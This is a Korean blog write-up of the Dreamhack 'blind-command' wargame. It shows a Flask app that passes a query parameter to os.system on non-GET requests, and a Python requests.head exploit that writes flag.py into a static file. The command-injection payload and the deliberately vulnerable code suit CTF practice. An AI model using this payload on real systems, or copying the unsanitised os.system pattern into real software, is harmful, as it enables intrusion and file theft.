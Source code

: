 ```yaml
---
layout : single
title : "STAGE10. Web Hacking Epilogue"
categories: web-hacking
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# Web Hacking - Web Hacking Epilogue

-  [x] wargame : blind-command

## Wargame : blind-command

blind command injection은 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다. 아래 코드는 문제 파일의 app.py인데, 메소드가 GET이 아닐 경우 cmd 파라미터로 전달된 값을 시스템 명령어로 실행시킨다. 

```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

### 풀이 1

1) httpie를 통해 해당 서버에 OPTIONS 메소드로 요청을 보냄

아래 결과와 같이, HEAD, GET, OPTIONS 세 가지 메소드를 사용할 수 있다는 것을 확인할 수 있다

<img src = "/images/wargame/20.png"><br>

2) HEAD 메소드로 우회하여 시도

하였으나 장렬히 실패함. 구글링 결과 burp suite를 사용해서 하는 방법만 나오는데 난 아직 burp suite를 깔지 않았으므로 (+귀찮으므로) 다른 방법을 찾았다 <br>

\*사실 내가 httpie를 잘 다룰줄 아는 것은 아니라 httpie를 다루는 데에서 문제가 발생한 것인 지, httpie로는 불가능한 작업인 것인 지 모르겠다. httpie 연습 많이 할 것 ( + 일정 레벨 이상의 워게임 문제들을 원활하게 해결해나가기 위해서는 burp suite가 필수적이라고 느껴지긴 한다)

### 풀이 2

static이라는 폴더와 flag.txt 파일을 생성하고 flag.py의 내용을 읽어 저장하면 어떨까 싶어 현재 주소에서 flag.py를 cat 한 후, static/flag.txt에 저장하도록 코드를 작성하였다.

```python
import requests

host = "http://host3.dreamhack.games:21943/"
params = {'cmd':'mkdir static; cat flag.py > static/flag.txt'}

req = requests.head(host, params=params)
```

위 코드를 실행 후 /static/flag.txt 로 접근한 결과, 아래와 같이 flag를 얻을 수 있었다

<img src = "/images/wargame/21.png">